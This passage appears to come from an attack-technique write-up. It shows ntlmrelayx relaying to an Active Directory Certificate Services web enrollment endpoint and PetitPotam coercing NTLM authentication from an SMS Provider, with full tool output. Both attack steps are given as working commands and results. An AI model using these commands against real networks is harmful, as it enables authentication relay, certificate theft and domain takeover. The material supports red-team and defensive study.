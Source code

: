 +-----------------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+                                                                                                              | dc.aperture.local                 | None       | True            | False        | False             | False               | False         | False  | False   |                                                                                                              +-----------------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
    ```

3. On the attacker relay server, start `ntlmrelayx`, targeting the URL of the certificate enrollment web interface on the certificate authority:

    ```
    # python3 ntlmrelayx.py -t http://adcs.aperture.local/certsrv/certfnsh.asp --adcs -smb2support                                                   
    Impacket v0.12.0.dev1+20240502.235035.cb8467c3 - Copyright 2023 Fortra                                                                                                                                                                                                                                                                                                                                
    [*] Protocol Client HTTP loaded..                                                                                                                                                                  
    [*] Protocol Client HTTPS loaded..                                                                                                                                                                 
    [*] Protocol Client RPC loaded..                                                                                                                                                                   
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client SMB loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    [*] Setting up WCF Server

    [*] Setting up RAW Server on port 6666
    [*] Servers started, waiting for connections
    ```

4. From the attacker host, coerce NTLM authentication from the SMS Provider via SMB, targeting the relay server's IP address:

    ```
    └─# python3 PetitPotam.py -u <USERNAME> -p <PASSWORD> <NTLMRELAYX_LISTENER_IP> <SMS_PROVIDER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:192.168.57.15[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

